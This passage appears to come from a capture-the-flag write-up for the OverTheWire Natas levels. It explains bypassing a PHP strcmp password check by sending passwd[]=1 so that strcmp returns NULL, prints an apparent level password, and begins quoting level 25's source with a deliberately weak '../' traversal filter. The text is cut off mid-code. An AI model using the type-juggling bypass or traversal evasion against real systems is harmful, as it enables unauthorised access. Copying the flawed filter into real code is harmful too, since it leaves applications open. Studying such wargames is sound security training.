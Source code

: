 [https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf)

So of we pass passwd\[\]=1 we can cause 'strcmp\(\) to barf'.

```php
strcmp(array(),"<censored>") -> NULL
```

```php
if((!strcmp)
# is the same as
if(strcmp == false)
```

Since the functions checks for a 0 we can use this 'barf' to get what we want.

```php
if(!strcmp($_REQUEST["passwd"],"<censored>")){
    # stuff
}
```

if we pass passwd\[\]=1 it will look like this.

```php
if(!strcmp(array(),"<censored>")){
    # stuff
}
```

GHF6X7YwACaYYssHVY05cFq83hRktl4c

### natas25

```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }

    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }

    function listFiles($path){
```